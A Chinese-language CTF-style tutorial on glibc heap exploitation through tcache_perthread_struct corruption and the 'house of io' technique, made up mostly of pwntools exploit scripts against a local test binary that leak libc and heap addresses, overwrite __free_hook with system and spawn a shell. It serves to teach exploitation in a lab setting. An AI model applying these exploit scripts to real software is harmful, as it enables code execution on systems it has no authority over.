

# tcache perthread corruption

## 1.基本原理

tcache_perthread_struct 通常处在 heap 的最开始，通常使用 tcache poisoning malloc 控制，并且如果控制了 tcache_perthread_struct，那么整个 tcache 也就相当于被控制了，我们也可以实现任意地址 malloc 了

tips：获取地址时，我们可以使用泄露的堆地址 `& ~0xfff`, 因为 tcache_perthread_struct 在 heap 开始的地方，末 3 位是 0


此外，house of io利用手法也是利用的tcache_perthread_struct 结构体，想办法将其释放掉，然后再申请回来，申请回来的时候就能控制整个 tcache 的分配。但是这里需要注意，我们需要在0x240大小的堆块上进行操作，这样申请到tcache_perthread_struct 的时候该tcache的count就为-1了，释放的时候就不会进入tcache了，而是进入unsorted bin

```python
add_chunk(2, 0x240)
delete_chunk(2)
delete_chunk(2)
add_chunk(2, 0x240)
show_chunk(2)
heap_addr = u64(rl()[0:4].ljust(8, b"\x00")) & ~0xfff
li("heap_addr", heap_addr)

edit_chunk(2, p64(heap_addr + 0x10))
add_chunk(0, 0x240)
add_chunk(0, 0x240)
delete_chunk(0)
add_chunk(0, 0x240)
gdb.attach(p)

it()
```



## 2.利用思路

漏洞程序参考漏洞程序参考 unsortedbin leak 的测试程序

```python
from pwn import *
# patchelf --set-interpreter new_ld_address file_path
# patchelf --replace-needed old_libc.so.6 new_libc.so.6 file_path
# pycharm # ctrl+/

# local pwn
elf_path = './test_tcache'
elf = ELF(elf_path)
libc = ELF('/home/ubuntu/tools/glibc-all-in-one/libs/2.27-3ubuntu1_amd64/libc-2.27.so')
context(arch=elf.arch, os=elf.os, log_level="debug")

p = process([elf_path])

#-----------------------------------------------------------------------------------------
it      = lambda                    :p.interactive()
sd      = lambda data               :p.send((data))
sa     	= lambda delim,data         :p.sendafter((delim), (data))
sl      = lambda data               :p.sendline((data))
sla     = lambda delim,data         :p.sendlineafter((delim), (data))
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=False :p.recvuntil(delims, drop)
rl      = lambda                    :p.recvline()
l       = lambda str1               :log.success(str1)
li      = lambda str1,data1         :log.success(str1+' ========> '+hex(data1))
uu32    = lambda data               :u32(data.ljust(4, b"\x00"))
uu64    = lambda data               :u64(data.ljust(8, b"\x00"))
u32Leakbase = lambda offset         :u32(ru(b"\xf7")[-4:]) - offset
u64Leakbase = lambda offset         :u64(ru(b"\x7f")[-6:].ljust(8, b"\x00")) - offset
#-----------------------------------------------------------------------------------------

def add_chunk(index, size):
    sla(b"choice:\n", b"1")
    sla(b"index:\n", str(index).encode())
    sla(b"size:\n", str(size).encode())

def delete_chunk(index):
    sla(b"choice:\n", b"2")
    sla(b"index:\n", str(index).encode())

def edit_chunk(index, content):
    sla(b"choice:\n", b"3")
    sla(b"index:\n", str(index).encode())
    sla(b"length:\n", str(len(content)).encode())
    sa(b"content:\n", content)

def show_chunk(index):
    sla(b"choice:\n", b"4")
    sla(b"index:\n", str(index).encode())

def exit_p():
    sla(b"choice:\n", b"5")

# leak libc
add_chunk(0, 0x410)
add_chunk(1, 0x10)
delete_chunk(0)
add_chunk(0, 0x410)
show_chunk(0)
libc_addr = u64Leakbase(0x3ebca0)
li("libc_addr", libc_addr)

add_chunk(2, 0x100)
delete_chunk(2)
delete_chunk(2)
add_chunk(2, 0x100)
show_chunk(2)
heap_addr = u64(rl()[0:4].ljust(8, b"\x00")) & ~0xfff
li("heap_addr", heap_addr)
edit_chunk(2, p64(heap_addr))
add_chunk(2, 0x100)
add_chunk(2, 0x100)

edit_chunk(2, p8(7)*64 + p64(libc.sym['__free_hook'] + libc_addr)*64)
add_chunk(2, 0x10)
edit_chunk(2, p64(libc.sym['system'] + libc_addr))
add_chunk(3, 0x10)
edit_chunk(3, b'/bin/sh\x00')
delete_chunk(3)
# gdb.attach(p)

it()
```

